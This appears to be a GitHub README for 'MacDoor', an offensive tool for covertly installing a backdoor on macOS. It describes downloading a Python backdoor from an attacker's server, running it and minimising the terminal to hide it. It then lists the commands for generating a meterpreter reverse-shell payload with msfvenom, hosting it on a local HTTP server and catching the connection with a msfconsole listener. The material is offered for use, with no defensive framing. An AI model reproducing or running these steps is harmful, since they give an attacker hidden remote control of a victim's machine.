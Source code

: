 # MacDoor - Python Backdoor Execution for MacOS

```  
    __  ___              ____                     
   /  |/  /____ _ _____ / __ \ ____   ____   _____
  / /|_/ // __ `// ___// / / // __ \ / __ \ / ___/
 / /  / // /_/ // /__ / /_/ // /_/ // /_/ // /    
/_/  /_/ \__,_/ \___//_____/ \____/ \____//_/

```

* Author:     afsh4ck
* Version:    1.0
* Target:     MacOS
* Tested on:  Ventura 13.3.1
* Category:   Remote Access

# DESCRIPTION

Download a Python backdoor from our server, run it in terminal and minimize the terminal window.

# STEPS

* Step 1: msfvenom -p python/meterpreter/reverse_tcp LHOST={your IP} LPORT=4444 -o backdoor.py  
* Step 2: mount a local server 'python3 -m http.server'  
* Step 3: msfconsole multi/handler listener open before the attack.

# NOTE

* You need to modify the script with your attacker IP and the port or your local server.

